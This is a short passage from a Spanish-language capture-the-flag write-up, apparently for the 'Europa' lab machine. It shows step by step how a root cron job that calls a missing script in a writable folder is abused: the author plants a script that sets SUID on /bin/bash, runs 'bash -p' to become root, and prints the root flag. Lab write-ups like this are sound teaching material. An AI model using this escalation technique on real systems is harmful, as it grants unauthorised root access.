 Consiste en un script en PHP

```null
www-data@europa:/$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Ejecuta un script en bash que no existe en una ruta en la cual tengo capacidad de escritura

```null
www-data@europa:/$ ls -l /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory
```

Creo yo un script que le asigne SUID a la ```bash``` y le doy permisos de ejecución

```null
www-data@europa:/$ cat /var/www/cmd/logcleared.sh
#!/bin/bash
chmod u+s /bin/bash
```

```null
www-data@europa:/$ chmod +x /var/www/cmd/logcleared.sh
```

Me convierto en ```root``` y puedo ver la segunda flag

```null
www-data@europa:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

```null
www-data@europa:/$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
b6344f3e49260984ee35a83aadc3f4a9
```